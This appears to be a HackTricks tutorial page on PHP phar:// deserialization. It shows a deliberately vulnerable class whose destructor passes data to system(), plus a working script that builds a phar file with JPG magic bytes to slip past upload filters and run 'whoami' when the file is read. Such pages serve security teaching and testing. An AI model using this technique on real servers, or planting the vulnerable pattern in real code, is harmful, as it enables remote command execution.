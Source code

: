 # phar:// deserialization

{{#include ../../banners/hacktricks-training.md}}



**Phar** files (PHP Archive) files **contain meta data in serialized format**, so, when parsed, this **metadata** is **deserialized** and you can try to abuse a **deserialization** vulnerability inside the **PHP** code.

The best thing about this characteristic is that this deserialization will occur even using PHP functions that do not eval PHP code like **file_get_contents(), fopen(), file() or file_exists(), md5_file(), filemtime() or filesize()**.

So, imagine a situation where you can make a PHP web get the size of an arbitrary file an arbitrary file using the **`phar://`** protocol, and inside the code you find a **class** similar to the following one:

```php:vunl.php
<?php
class AnyClass {
	public $data = null;
	public function __construct($data) {
		$this->data = $data;
	}

	function __destruct() {
		system($this->data);
	}
}

filesize("phar://test.phar"); #The attacker can control this path
```

You can create a **phar** file that when loaded will **abuse this class to execute arbitrary command**s with something like:

```php:create_phar.php
<?php

class AnyClass {
	public $data = null;
	public function __construct($data) {
		$this->data = $data;
	}

	function __destruct() {
		system($this->data);
	}
}

// create new Phar
$phar = new Phar('test.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub("\xff\xd8\xff\n<?php __HALT_COMPILER(); ?>");

// add object of any class as meta data
$object = new AnyClass('whoami');
$phar->setMetadata($object);
$phar->stopBuffering();
```

Note how the **magic bytes of JPG** (`\xff\xd8\xff`) are added at the beginning of the phar file to **bypass** **possible** file **uploads** **restrictions**.\
**Compile** the `test.phar` file with:

```bash
php --define phar.readonly=0 create_phar.php
```

And execute the `whoami` command abusing the vulnerable code with:

```bash
php vuln.php
```

### References

{% embed url="https://blog.ripstech.com/2018/new-php-exploitation-technique/" %}



{{#include ../../banners/hacktricks-training.md}}


